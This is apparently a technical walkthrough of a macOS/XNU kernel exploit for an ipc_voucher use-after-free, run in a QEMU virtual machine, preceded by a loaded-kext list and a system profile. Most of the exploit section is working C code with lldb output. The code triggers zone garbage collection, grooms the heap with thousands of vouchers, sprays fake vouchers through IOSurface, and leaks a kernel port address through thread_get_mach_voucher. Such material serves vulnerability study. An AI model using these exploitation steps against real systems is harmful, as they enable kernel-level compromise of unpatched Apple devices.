System model name: iMacPro1,1 (Mac-7BA5B2D9E42DDD94)

System uptime in nanoseconds: 150525421038
last loaded kext at 19366366727: com.apple.fileutil	1 (addr 0xffffff7f998a5000, size 110592)
loaded kexts:
as.acidanthera.BrcmFirmwareStore	2.6.9
as.vit9696.AppleALC	1.9.0
as.vit9696.WhateverGreen	1.6.7
as.vit9696.Lilu	1.6.8
com.apple.fileutil	1
com.apple.filesystems.autofs	3.0
com.apple.driver.X86PlatformShim	1.0.0
com.apple.driver.AGPM	110.23.46
com.apple.driver.ApplePlatformEnabler	2.7.0d0
com.apple.driver.AppleHDAHardwareConfigDriver	282.10
com.apple.driver.AppleHDA	282.10
com.apple.driver.AppleQEMUHID	2.0.9
com.apple.driver.AppleGraphicsDevicePolicy	3.25.6
com.apple.driver.AppleUpstreamUserClient	3.6.5
com.apple.driver.AppleMCCSControl	1.5.6
com.apple.driver.AppleOSXWatchdog	1
com.apple.driver.ACPI_SMC_PlatformPlugin	1.0.0
com.apple.driver.Apple16X50ACPI	3.2
com.apple.driver.AppleFIVRDriver	4.1.0
com.apple.AGDCPluginDisplayMetrics	3.25.6
com.apple.driver.AppleHV	1
com.apple.iokit.IOUserEthernet	1.0.1
com.apple.iokit.IOBluetoothSerialManager	6.0.9f2
com.apple.driver.pmtelemetry	1
com.apple.Dont_Steal_Mac_OS_X	7.0.0
com.apple.driver.AppleIntelSlowAdaptiveClocking	4.0.0
com.apple.filesystems.apfs	945.220.38
com.apple.driver.AppleFileSystemDriver	3.0.1
com.apple.driver.AppleVirtIO	2.0.9
com.apple.filesystems.hfs.kext	407.200.4
com.apple.AppleFSCompression.AppleFSCompressionTypeDataless	1.0.0d1
com.apple.BootCache	40
com.apple.AppleFSCompression.AppleFSCompressionTypeZlib	1.0.0
com.apple.AppleSystemPolicy	1.0
com.apple.driver.AppleVmxnet3Ethernet	1.0.8
com.apple.driver.AppleAHCIPort	329.200.2
com.apple.private.KextAudit	1.0
com.apple.driver.AppleACPIButtons	6.1
com.apple.driver.AppleHPET	1.8
com.apple.driver.AppleRTC	2.0
com.apple.driver.AppleSMBIOS	2.1
com.apple.driver.AppleAPIC	1.7
com.apple.nke.applicationfirewall	190
com.apple.security.TMSafetyNet	8
com.apple.kext.triggers	1.0
com.apple.driver.DspFuncLib	282.10
com.apple.kext.OSvKernDSPLib	527
com.apple.driver.AppleGraphicsControl	3.25.6
com.apple.driver.AppleSMBusController	1.0.18d1
com.apple.iokit.IOSMBusFamily	1.1
com.apple.driver.AppleHDAController	282.10
com.apple.iokit.IOHDAFamily	282.10
com.apple.driver.IOPlatformPluginLegacy	1.0.0
com.apple.driver.X86PlatformPlugin	1.0.0
com.apple.driver.IOPlatformPluginFamily	6.0.0d8
com.apple.driver.Apple16X50Serial	3.2
com.apple.driver.AppleSMBusPCI	1.0.14d1
com.apple.iokit.IOAVBFamily	710.1
com.apple.plugin.IOgPTPPlugin	700.7
com.apple.iokit.IOEthernetAVBController	1.1.0
com.apple.driver.AppleSSE	1.0
com.apple.iokit.IOSurface	255.1
com.apple.iokit.IOBluetoothFamily	6.0.9f2
com.apple.AppleGPUWrangler	3.25.6
com.apple.AppleGraphicsDeviceControl	3.25.6
com.apple.iokit.IOSlowAdaptiveClockingFamily	1.0.0
com.apple.iokit.IONDRVSupport	530
com.apple.iokit.IOGraphicsFamily	530.12
com.apple.driver.AppleXsanScheme	3
com.apple.iokit.IOAHCIBlockStorage	301.200.2
com.apple.driver.AppleUSBAudio	315.6
com.apple.driver.usb.IOUSBHostHIDDevice	1.2
com.apple.iokit.IOAudioFamily	206.5
com.apple.vecLib.kext	1.2.0
com.apple.driver.AppleUSBHostMergeProperties	1.2
com.apple.driver.usb.cdc	5.0.0
com.apple.driver.usb.networking	5.0.0
com.apple.driver.usb.AppleUSBHostCompositeDevice	1.2
com.apple.iokit.IOSerialFamily	11
com.apple.filesystems.hfs.encodings.kext	1
com.apple.iokit.IOAHCIFamily	288
com.apple.driver.usb.AppleUSBEHCIPCI	1.2
com.apple.driver.usb.AppleUSBEHCI	1.2
com.apple.driver.usb.AppleUSBXHCIPCI	1.2
com.apple.driver.usb.AppleUSBXHCI	1.2
com.apple.driver.usb.AppleUSBHostPacketFilter	1.0
com.apple.iokit.IOUSBFamily	900.4.2
com.apple.driver.AppleEFINVRAM	2.1
com.apple.driver.AppleEFIRuntime	2.1
com.apple.iokit.IOHIDFamily	2.0.0
com.apple.security.quarantine	3
com.apple.security.sandbox	300.0
com.apple.kext.AppleMatch	1.0.0d1
com.apple.driver.DiskImages	493.0.0
com.apple.driver.AppleFDEKeyStore	28.30
com.apple.driver.AppleEffaceableStorage	1.0
com.apple.driver.AppleKeyStore	2
com.apple.driver.AppleUSBTDM	456.200.8
com.apple.driver.AppleMobileFileIntegrity	1.0.5
com.apple.kext.CoreTrust	1
com.apple.iokit.IOUSBMassStorageDriver	145.200.2
com.apple.iokit.IOSCSIBlockCommandsDevice	408.200.1
com.apple.iokit.IOSCSIArchitectureModelFamily	408.200.1
com.apple.iokit.IOStorageFamily	2.1
com.apple.driver.AppleCredentialManager	1.0
com.apple.driver.KernelRelayHost	1
com.apple.iokit.IOUSBHostFamily	1.2
com.apple.driver.usb.AppleUSBCommon	1.0
com.apple.driver.AppleBusPowerController	1.0
com.apple.driver.AppleSEPManager	1.0.1
com.apple.driver.IOSlaveProcessor	1
com.apple.iokit.IOReportFamily	47
com.apple.iokit.IOTimeSyncFamily	700.7
com.apple.iokit.IONetworkingFamily	3.4
com.apple.driver.AppleACPIPlatform	6.1
com.apple.driver.AppleSMC	3.1.9
com.apple.iokit.IOPCIFamily	2.9
com.apple.iokit.IOACPIFamily	1.4
com.apple.kec.pthread	1
com.apple.kec.Libm	1
com.apple.kec.corecrypto	1.0

EOF
Model: iMacPro1,1, BootROM 2022.100.22.0.0, 1 processor, Intel Core 2 Solo, 3.8 GHz, 2 GB, SMC 
Graphics: Display, 3 MB
Memory Module: DIMM 0, 2 GB, RAM, 0 MHz, QEMU, Unknown
Network Service: Ethernet, Ethernet, en0
Serial ATA Device: QEMU HARDDISK, 402.7 MB
Serial ATA Device: QEMU HARDDISK, 14.68 GB
Serial ATA Device: QEMU HARDDISK, 68.72 GB
USB Device: USB 2.0 Bus
USB Device: QEMU USB Mouse
USB Device: QEMU USB Keyboard
Thunderbolt Bus: 
```

# Exploit

## 1. Heap Spray with Garbage Collection!

Let's look again at the `ipc_voucher` structure:

```cpp
/*
 * IPC Voucher
 *
 * A voucher is an immutable, reference-counted object,
 * representing an index set for attribute values of a specific resource manager
 * (these attribute values are also reference counted).
 */
struct ipc_voucher {
  iv_index_t    iv_hash;         /* checksum hash */
  iv_index_t    iv_sum;          /* checksum of values */
  os_refcnt_t   iv_refs;         /* reference count */
  iv_index_t    iv_table_size;   /* size of the voucher table */
  iv_index_t    iv_inline_table[IV_ENTRIES_INLINE]; /* inline table */
  iv_entry_t    iv_table;        /* voucher attribute entry table */
  ipc_port_t    iv_port;         /* port representing the voucher */
  queue_chain_t iv_hash_link;    /* link on hash chain */
};
```

We can see the `iv_refs` field, which determines whether to free the voucher.

Through the poc, we can decrease this field and free the voucher.

The important point is the pointer to `ipc_port_t` in `iv_port`.

This `ipc_port_t` structure is the kernel representation of a typical Mach port,
and in this case, `ipc_voucher` implements its own fields (e.g., `iv_table` and `iv_inline_table`) along with the `ipc_port_t` field.

**Another important point is that there is no receive right.**
Normally in Mach, a port can have send and receive rights; with send rights, you can send messages, and with receive rights, you can receive messages.

**In this case, only send rights are present.**

Anyway, the important fields in the `ipc_voucher` structure are `iv_refs` and `iv_port`.
The other fields are related to global voucher object list management or storing attributes, and are not important.

If we can free the voucher through the vulnerability,
we can use a "heap spray" technique to overwrite this location with attacker-controlled data.

In short, this means overwriting the freed voucher in the kernel heap with our data.

If the heap spray succeeds,
the voucher pointer in the thread will point to our arbitrary voucher structure,
and we can use the `thread_get_mach_voucher` function to obtain a userland handle to that voucher.

Then, using Mach API functions, we can create new primitives.

So, when performing the heap spray, we spray `ipc_voucher` structures into the kernel heap,
replacing the freed voucher structure with an arbitrary structure.

The main goal is to control the `iv_port` field and make it point to an attacker-controlled `ipc_port`.

### Garbage Collection

However, before spraying, we need to trigger garbage collection after freeing.

kalloc is the XNU allocator used to allocate the `ipc_voucher` structure we UAF'd,
using a series of "zones" for allocation. These zones are regions of heap memory containing only objects of a specific size or type.
For example, the `kalloc.32` zone contains objects of size 32 bytes or less.
You can check these zones using the `zprint` command in the terminal.

```c
seos-iMac-Pro:~ seo$ sudo zprint
                            elem         cur         max        cur         max         cur  alloc  alloc    
zone name                   size        size        size      #elts       #elts       inuse   size  count
-------------------------------------------------------------------------------------------------------------
kalloc.16                     16       1640K       1751K     104960      112100       82866     4K    256  C
kalloc.32                     32       2168K       2627K      69376       84075       22966     4K    128  C
kalloc.48                     48       1064K       2627K      22698       56050       18639     4K     85  C
kalloc.64                     64       1256K       1751K      20096       28025       18804     4K     64  C
kalloc.80                     80        608K       1167K       7782       14946        5549     4K     51  C
kalloc.96                     96        256K        307K       2730        3280        2553     8K     85  C
kalloc.128                   128        988K       1167K       7904        9341        7855     4K     32  C
kalloc.160                   160        176K        205K       1126        1312        1082     8K     51  C
kalloc.192                   192        276K        307K       1472        1640        1197    12K     64  C
kalloc.224                   224        320K        410K       1462        1874        1420    16K     73  C
kalloc.256                   256        200K        230K        800         922         776     4K     16  C
kalloc.288                   288        500K        512K       1777        1822        1717    20K     71  C
kalloc.368                   368        192K        162K        534         450         493    32K     89  C
kalloc.400                   400         80K         67K        204         172          72    20K     51  C
kalloc.512                   512       1000K       1167K       2000        2335         596     4K      8  C
kalloc.576                   576         20K         20K         35          36          19     4K      7  C
kalloc.768                   768         84K         91K        112         121         101    12K     16  C
kalloc.1024                 1024        360K        518K        360         518         350     4K      4  C
kalloc.1152                 1152         72K         91K         64          81           5     8K      7  C
kalloc.1280                 1280        100K        101K         80          81          23    20K     16  C
kalloc.1664                 1664         56K         42K         34          25          25    28K     17  C
kalloc.2048                 2048        228K        230K        114         115         112     4K      2  C
kalloc.4096                 4096      70584K     101004K      17646       25251         213     4K      1  C
kalloc.6144                 6144        108K        136K         18          22          16    12K      2  C
kalloc.8192                 8192       1160K       1556K        145         194          24     8K      1  C
...
ipc.ports                    168       1776K       8328K      10825       50761        6214    12K     73  C
...
**ipc.vouchers                  80          8K       1260K        102       16128          43     4K     51  C**
ipc.voucher.attr.control$     56          4K          4K         73          73           6     4K     73  C
....
```

Here we see various kalloc zones, ipc.ports, etc.

**ipc_voucher belongs to the ipc.vouchers zone.** Once a dangling pointer to a freed voucher object is obtained,
that voucher object can be reallocated as something else, but this is not simple.
Vouchers usually exist in their own zone, `ipc_vouchers`, which is allocated via `zinit` in `osfmk/ipc/ipc_voucher.c`.

```cpp
    File: ./osfmk/ipc/ipc_voucher.c
    198: void
    199: ipc_voucher_init(void)
    200: {
    201: 	natural_t ipc_voucher_max = (task_max + thread_max) * 2;
    202: 	natural_t attr_manager_max = MACH_VOUCHER_ATTR_KEY_NUM_WELL_KNOWN;
    203: 	iv_index_t i;
    204: 
    205: 	ipc_voucher_zone = zinit(sizeof(struct ipc_voucher),
    206: 				 ipc_voucher_max * sizeof(struct ipc_voucher),
    207: 				 sizeof(struct ipc_voucher),
    208: 				 "ipc vouchers");
    209: 	zone_change(ipc_voucher_zone, Z_NOENCRYPT, TRUE);
    210: 
    211: 	
    216: 
```

Since there is no function to spray arbitrary data into the **ipc.vouchers** zone, you must first return the page to the allocator, then reallocate it in a kalloc zone for spraying.
This can be done via the GC (garbage collection) mechanism. Triggering GC causes unused pages to be returned to the allocator.

In summary, the freed voucher's memory is placed in the zone's free list,
and when a new voucher is created, it is reallocated.
To reallocate as another object, the only feasible way is to trigger zone garbage collection.
This moves the freed voucher's memory to the zone map, then reallocates it as another object.

On iOS 10 and below, this could be done via Mach calls,
but from iOS 11 onwards, this feature was removed, so you must trigger it manually.
Siguza's [v0rtex analysis](https://siguza.github.io/v0rtex/) describes one way to do this:

> […] you should still be able to trigger a garbage collection by iterating over all zones, allocating and subsequently freeing something like 100MB in each, and measuring how long it takes to do so - garbage collection should be a significant spike.
> 

So the following function is used. Here, messages are allocated in the `kalloc.16384` zone,
sent 256 times via `send_kalloc_message`, and the time taken for each send is recorded.
If sending these messages takes more than 20ms (20,000,000 nanoseconds),
we assume GC has been triggered. (The time varies by environment; for iOS devices: 1ms (1,000,000 nanoseconds))

```cpp
void trigger_gc_please()
{
    ...
    uint32_t body_size = message_size_for_kalloc_size(16384) - sizeof(mach_msg_header_t); // 1024
    uint8_t *body = malloc(body_size); 
    memset(body, 0x41, body_size);
    
    for (int i = 0; i < gc_ports_cnt; i++)
    {
        uint64_t t0, t1;

        t0 = mach_absolute_time();
        gc_ports[i] = send_kalloc_message(body, body_size);
        t1 = mach_absolute_time();
        
        if (t1 - t0 > 20000000) 
        {
            INFO("got gc at %d -- breaking, t1-t0: %llu\n", i, t1 - t0);
            gc_ports_max = i;
            break;
        }
    }

    ...

    sched_yield();
    sleep(1);
}
```

If GC triggering fails, the page is not freed and our heap spray fails, causing the exploit to fail.
GC works asynchronously, so you must wait some time to ensure GC has completed.
Thus, `sched_yield` and `sleep` are included at the end of this function.

The important factor in GC is that a page can only be freed if all objects on that page are freed.
That is, there must be no allocations on the same page as our target UAF voucher.
To solve this, allocate 0x2000 ports before the target `p1`, and 0x1000 more ports after.

Refer to the following code:

```cpp
...
    /* create a few vouchers used to trigger the bug */
    mach_voucher_attr_recipe_data_t atm_data = 
    {
        .key = MACH_VOUCHER_ATTR_KEY_ATM,
        .command = 510
    };

    mach_port_t p2;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p2);
    
    mach_port_t p3;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p3);

    /* allocate 0x2000 vouchers to alloc some new fresh pages */
    for (int i = 0; i < sizeof(before) / sizeof(mach_port_t); i++)
    {
        ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &before[i]);
    }
    
    /* alloc our target uaf voucher */
    mach_port_t p1;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p1);
    
    /* allocate 0x1000 more vouchers */
    for (int i = 0; i < sizeof(after) / sizeof(mach_port_t); i++)
    {
        ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &after[i]);
    }

    /*
        theoretically, we should now have 3 blocks of memory (roughly) as so:
        |--------------------|-------------|------------------|
        |     ipc ports      | target port |  more ipc ports  |
        |--------------------|-------------|------------------| 
                             ^             ^
                              page with only our controlled ports
                              
Hopefully, our target port is now allocated on a page containing only our controlled ports.
This means that when we free all ports, all allocations on that page are freed,
and triggering GC returns that page from the ipc_ports zone to kalloc for reuse.
This allows us to spray fake vouchers via IOSurface into another kalloc zone (e.g., kalloc.1024),
and as a result, the dangling pointer to the voucher overlaps with one of our allocations.
    */
```

### Heap Spray Using IOSurface

If everything goes as planned, GC is triggered and the page is returned to the allocation pool.
Then we can continue heap spraying to replace the freed ipc_voucher with our fake voucher. For this, we can use the IOKit UserClient implemented in the IOSurface kext (kernel extension). IOKit is the kernel interface for drivers and extensions, and UserClient allows users to send commands to kernel extensions. IOSurface is a kext for graphics buffer processing and computation,
but it provides an excellent heap spray primitive for two reasons.

First, IOSurface (especially the "set value" method) allows you to provide an encoded plist containing objects like arrays (OSArray), dictionaries (OSDictionary), strings (OSString), etc.
Within these objects, you can put completely arbitrary data (e.g., nested types, arrays inside dictionaries).

Second, the IOSurface UserClient is accessible from the app sandbox,
with no authorization, permission checks, or sandbox blocking. To spray data, we create a surface with OSStrings. After setting up a surface, we use an array containing a dictionary with an OSString as the spray item. OSString can be any size, but we want to fill a whole page. On 4k devices, the page size is 0x1000 (4096), and on 16k devices, it's 0x4000 (16,384).
Because of the "string" part of OSString, our data must be NULL-terminated,
so we must account for this when calculating the size.

The code below sets up the data to be sprayed into the surface (and thus into kernel memory) using the OSUnserializeBinary XML Spraying principle,
and the bcopy loop fills each OSString with fake ipc_vouchers.

```cpp
int main(int argc, char *argv[], char *envp[]) {
        IOSurface_init();
...
    /* set up our IOSurface data for spraying */
#define FILL_MEMSIZE 0x4000000
    int spray_qty = FILL_MEMSIZE / pagesize; /* # of pages to spray */ 
    
    int spray_size = (5 * sizeof(uint32_t)) + (spray_qty * ((4 * sizeof(uint32_t)) + pagesize));
    uint32_t *spray_data = malloc(spray_size); // header + (spray_qty * (item_header + pgsize))

    build_IOSurface_spray_data(&fake_voucher, sizeof(fake_ipc_voucher_t), spray_qty, spray_data, spray_size);
    ...
}

//iosurface.c
int build_IOSurface_spray_data(void *data, size_t size, int spray_qty, uint32_t *spray_data, int spray_size) {
    /* set up our IOSurface data for spraying */
    bzero((void *)spray_data, spray_size);
    
    uint32_t *spray_cur = spray_data;
    
   /*
        +-> Surface
          +-> Array
            +-> Dictionary
              +-> OSString 
              +-> OSString
              +-> OSString 
                etc (spray_qty times)...
   */

    *(spray_cur++) = IOSurface_id;
    *(spray_cur++) = 0x0;
    *(spray_cur++) = kOSSerializeMagic;
    *(spray_cur++) = kOSSerializeEndCollection | kOSSerializeArray | 1;
    *(spray_cur++) = kOSSerializeEndCollection | kOSSerializeDictionary | spray_qty;
    for (int i = 0; i < spray_qty; i++)
    {
        *(spray_cur++) = kOSSerializeSymbol | 5;
        *(spray_cur++) = transpose(i);
        *(spray_cur++) = 0x0;
        *(spray_cur++) = (i + 1 >= spray_qty ? kOSSerializeEndCollection : 0) | kOSSerializeString | (pagesize - 1);
        
        for (uintptr_t ptr = (uintptr_t)spray_cur, end = ptr + pagesize; 
             ptr + size <= end; 
             ptr += size)
        {
            bcopy((const void *)data, (void *)ptr, size);
        }
        
        spray_cur += (pagesize / sizeof(uint32_t));
    }

    return 0;
}
```


Then you can call the user client to set the provided data to the surface:

```cpp
...
    trigger_gc_please(); 

    ret = IOSurface_set_value(spray_data, spray_size);
    INFO("IOSurface_set_value ret: %d\n", ret);
    if(ret == false) exit(1);
...
```

If this works properly, the freed ipc_voucher is now replaced with our fake voucher,
which we have copied into kernel memory via heap spray.

```c
(lldb) p *(ipc_voucher_t)0xffffff8011049c80
(ipc_voucher) $1 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 100)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = nullptr
  iv_hash_link = {
    next = nullptr
    prev = nullptr
  }
}
```

Now the voucher pointer stored in the thread points to our fake `ipc_voucher`,
and that fake `ipc_voucher` points to a userland-allocated `fakeport`.

Now, we try to obtain a handle to this voucher/port via the `thread_get_mach_voucher` function.

Earlier, we allocated 0x2000 ports before the target `p1`, and 0x1000 more after.
So, first allocate new Mach port names with MACH_PORT_RIGHT_RECEIVE in preport[0x1000] in the IPC space,
**then obtain a handle to this voucher/port via `thread_get_mach_voucher`,**
then allocate Mach port names with the same right in postport[0x2000].

```c
    mach_port_t real_port_to_fake_voucher = MACH_PORT_NULL;

    /* 
        alloc'ing ports either side of the kport_t that thread_get_mach_voucher 
        creates will give us much better success rate for guessing the 
        heap address of our pipe buffer-based port 

        someone once said iOS's heap randomization was weak
                            i didn't listen
            then i realised
                    iOS's heap randomization is weak
                                                    ...i should've listened
    */  

    for (int i = 0; i < sizeof(preport) / sizeof(mach_port_t); i++)
    {
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &preport[i]);
    }

    /* fingers crossed we get a userland handle onto our 'fakeport' object */
    //printf("pauseing...\n");
    //getchar();
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
    INFO("port: 0x%x\n", real_port_to_fake_voucher);

    //printf("thread_get_mach_voucher called, port printed...\n");
    //getchar();

    for (int i = 0; i < sizeof(postport) / sizeof(mach_port_t); i++)
    { 
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &postport[i]);
    }
```

If you succeed in obtaining the handle, you have successfully heap-sprayed the ipc_voucher!

```c
seos-iMac-Pro% ./exp  
[*] page size: 0x1000, kr=(os/kern) successful
[*] IOSurface_init success, IOSurface_id=0x1
[*] total pipes created: 1280
[*] got gc at 15 -- breaking, t1-t0: 23916761
[*] IOSurface_set_value ret: 1
[*] port: 0x114607
```

Now, using the `IOSurfaceRootUserClient::get_value()` wrapper function,
find the "kernel address of the voucher port created by the `thread_get_mach_voucher` → `convert_voucher_to_port` function" among the sprayed data.

```c
    uint8_t *response = (uint8_t *)malloc(spray_size);
    size_t sz = spray_size;

    int spray_index = 0;
    int port_index = 0;
    fake_ipc_voucher_t *target_voucher = NULL;

    INFO("getting responses...\n");
    for (int s = 0; s < spray_qty; s++)
    {
        bzero((void *)response, spray_size);

        struct IOSurfaceValueArgs_string request = {
            .surface_id = IOSurface_id,
            ._out1 = 0x0,
            .string_data = transpose(s),
            .null = 0
        }; 

        ret = IOSurface_get_value((struct IOSurfaceValueArgs *)&request, sizeof(request), response, &sz);
        if(ret == false) exit(1);

        uint8_t *cursor = response + 0x10;

        for (int j = 0; j < pagesize / sizeof(fake_ipc_voucher_t); j++)
        {
            fake_ipc_voucher_t *found_voucher = (fake_ipc_voucher_t *)(cursor + (j * sizeof(fake_ipc_voucher_t)));

            if (found_voucher->iv_port != 0)
            {
                INFO("found voucher!! s: %d, j: %d\n", s, j);
                INFO("port: 0x%llx\n", found_voucher->iv_port);
                INFO("refs: %d\n", found_voucher->iv_refs);

                getchar();
                
                spray_index = s;
                port_index = j;
                target_voucher = found_voucher;

                goto found_voucher_lbl;
            }
        }
    }

    if (target_voucher == NULL)
    {
        ERROR("failed to find the target voucher :-(\n");
        return -1;
    }

found_voucher_lbl:;
...
```

```c
[*] WE REALLY POSTED UP ON THIS BLOCK -- part 1 of #alwaysstayposted
[*] getting responses...
[*] found voucher!! s: 743, j: 39
[*] port: 0xffffff8017e3c610
[*] refs: 101
```


### **Why were we able to obtain a handle to this voucher/port via `thread_get_mach_voucher`?**

Let's find out by debugging the kernel.

The analysis point is before and after calling `thread_get_mach_voucher` after heap spray,

```c
/* fingers crossed we get a userland handle onto our 'fakeport' object */
    printf("pauseing...\n");
    getchar();
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
    INFO("port: 0x%x\n", real_port_to_fake_voucher);

    printf("thread_get_mach_voucher called, port printed...\n");
    getchar();
```

This function allows reading and writing voucher references from user space.
To examine this function in detail, look at the **MIG** generated code.

If we assume the freed voucher has been replaced by another object,
the `thread_get_mach_voucher` call should succeed without a kernel panic.
The `thread_get_mach_voucher` function is at line 2688 in the kernel,
and it calls `ipc_voucher_reference(voucher)`, meaning the `iv_refs` field is valid for the voucher.

```cpp
    File: ./BUILD/obj/RELEASE_X86_64/osfmk/RELEASE/mach/thread_act_server.c
    2597: /* Routine thread_get_mach_voucher */
    2598: mig_internal novalue _Xthread_get_mach_voucher
    2599: 	(mach_msg_header_t *InHeadP, mach_msg_header_t *OutHeadP)
    2600: {
    2601: 
    2602: #ifdef  __MigPackStructs
    2603: #pragma pack(4)
    2604: #endif
    2605: 	typedef struct {
    2606: 		mach_msg_header_t Head;
    2607: 		NDR_record_t NDR;
    2608: 		mach_voucher_selector_t which;
    2609: 		mach_msg_trailer_t trailer;
    2610: 	} Request __attribute__((unused));
    2611: #ifdef  __MigPackStructs
    2612: #pragma pack()
    2613: #endif
    2614: 	typedef __Request__thread_get_mach_voucher_t __Request;
    2615: 	typedef __Reply__thread_get_mach_voucher_t Reply __attribute__((unused));
    2616: 
    2617: 	/*
    2618: 	 * typedef struct {
    2619: 	 * 	mach_msg_header_t Head;
    2620: 	 * 	NDR_record_t NDR;
    2621: 	 * 	kern_return_t RetCode;
    2622: 	 * } mig_reply_error_t;
    2623: 	 */
    2624: 
    2625: 	Request *In0P = (Request *) InHeadP;
    2626: 	Reply *OutP = (Reply *) OutHeadP;
    2627: #ifdef	__MIG_check__Request__thread_get_mach_voucher_t__defined
    2628: 	kern_return_t check_result;
    2629: #endif	/* __MIG_check__Request__thread_get_mach_voucher_t__defined */
    2630: 
    2631: #if	__MigKernelSpecificCode
    2632: #if	UseStaticTemplates
    2633: 	const static mach_msg_port_descriptor_t voucherTemplate = {
    2634: 		/* name = */		MACH_PORT_NULL,
    2635: 		/* pad1 = */		0,
    2636: 		/* pad2 = */		0,
    2637: 		/* disp = */		17,
    2638: 		/* type = */		MACH_MSG_PORT_DESCRIPTOR,
    2639: 	};
    2640: #endif	/* UseStaticTemplates */
    2641: 
    2642: #else
    2643: #if	UseStaticTemplates
    2644: 	const static mach_msg_port_descriptor_t voucherTemplate = {
    2645: 		/* name = */		MACH_PORT_NULL,
    2646: 		/* pad1 = */		0,
    2647: 		/* pad2 = */		0,
    2648: 		/* disp = */		19,
    2649: 		/* type = */		MACH_MSG_PORT_DESCRIPTOR,
    2650: 	};
    2651: #endif	/* UseStaticTemplates */
    2652: 
    2653: #endif /* __MigKernelSpecificCode */
    2654: 	kern_return_t RetCode;
    2655: 	thread_act_t thr_act;
    2656: 	ipc_voucher_t voucher;
    2657: 
    2658: 	__DeclareRcvRpc(3625, "thread_get_mach_voucher")
    2659: 	__BeforeRcvRpc(3625, "thread_get_mach_voucher")
    2660: 
    2661: #if	defined(__MIG_check__Request__thread_get_mach_voucher_t__defined)
    2662: 	check_result = __MIG_check__Request__thread_get_mach_voucher_t((__Request *)In0P);
    2663: 	if (check_result != MACH_MSG_SUCCESS)
    2664: 		{ MIG_RETURN_ERROR(OutP, check_result); }
    2665: #endif	/* defined(__MIG_check__Request__thread_get_mach_voucher_t__defined) */
    2666: 
    2667: #if	UseStaticTemplates
    2668: 	OutP->voucher = voucherTemplate;
    2669: #else	/* UseStaticTemplates */
    2670: #if __MigKernelSpecificCode
    2671: 	OutP->voucher.disposition = 17;
    2672: #else
    2673: 	OutP->voucher.disposition = 19;
    2674: #endif /* __MigKernelSpecificCode */
    2675: #if !(defined(KERNEL) && defined(__LP64__))
    2676: 	OutP->voucher.pad1 = 0;
    2677: #endif
    2678: 	OutP->voucher.pad2 = 0;
    2679: 	OutP->voucher.type = MACH_MSG_PORT_DESCRIPTOR;
    2680: #if defined(KERNEL)
    2681: 	OutP->voucher.pad_end = 0;
    2682: #endif
    2683: #endif	/* UseStaticTemplates */
    2684: 
    2685: 
    2686: 	thr_act = convert_port_to_thread(In0P->Head.msgh_request_port);
    2687: 
    2688: 	RetCode = thread_get_mach_voucher(thr_act, In0P->which, &voucher);
    2689: 	thread_deallocate(thr_act);
    2690: 	if (RetCode != KERN_SUCCESS) {
    2691: 		MIG_RETURN_ERROR(OutP, RetCode);
    2692: 	}
    2693: #if	__MigKernelSpecificCode
    2694: #endif /* __MigKernelSpecificCode */
    2695: 	OutP->voucher.name = (mach_port_t)convert_voucher_to_port(voucher);
    2696: 
    2697: 
    2698: 	OutP->Head.msgh_bits |= MACH_MSGH_BITS_COMPLEX;
    2699: 	OutP->Head.msgh_size = (mach_msg_size_t)(sizeof(Reply));
    2700: 	OutP->msgh_body.msgh_descriptor_count = 1;
    2701: 	__AfterRcvRpc(3625, "thread_get_mach_voucher")
    2702: }
```

If you set a breakpoint in `thread_get_mach_voucher`,
`thread->ith_voucher` points to 0xffffff8026187d70,
**and the iv_refs=100 set by the spray is present, with iv_port NULL (invalid).**

```c
(lldb) b *0xffffff8019de5560
Breakpoint 1: where = kernel`thread_get_mach_voucher at thread.c:3044, address = 0xffffff8019de5560
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #1, stop reason = signal SIGTRAP
    frame #0: 0xffffff8019eda180 kernel`machine_idle at pmCPU.c:174:3 [opt]
Target 0: (kernel) stopped.
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #1, stop reason = breakpoint 1.1
    frame #0: 0xffffff8019de5560 kernel`thread_get_mach_voucher(thread=0xffffff8024395370, which=2137391104, voucherp=0xffffff807a8f3d60) at thread.c:3044 [opt]
Target 0: (kernel) stopped.
(lldb) p *(thread_act_t)$rdi
(thread) $2 = {
...
  **ith_voucher = 0xffffff8026187d70**
...
}
**(lldb) p *(ipc_voucher_t)0xffffff8026187d70**
(ipc_voucher) $3 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 100)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = NULL
  iv_hash_link = {
    next = NULL
    prev = NULL
  }
}
```

After calling `thread_get_mach_voucher`,
checking the structure at address 0xffffff8026187d70 (`thread->ith_voucher`),
**now you see the iv_port kernel address is written.**

```c
**(lldb) p *(ipc_voucher_t)0xffffff8026187d70**
(ipc_voucher) $4 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 101)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  **iv_port = 0xffffff802a119110**
  iv_hash_link = {
    next = NULL
    prev = NULL
  }
}
(lldb) p *(ipc_port_t)0xffffff802a119110
(ipc_port) $5 = {
  ip_object = {
    io_bits = 2147483685
    io_references = 3
    io_lock_data = (interlock = 0)
  }
  ip_messages = {
    data = {
      port = {
        waitq = {
          waitq_type = 2
          ...
```

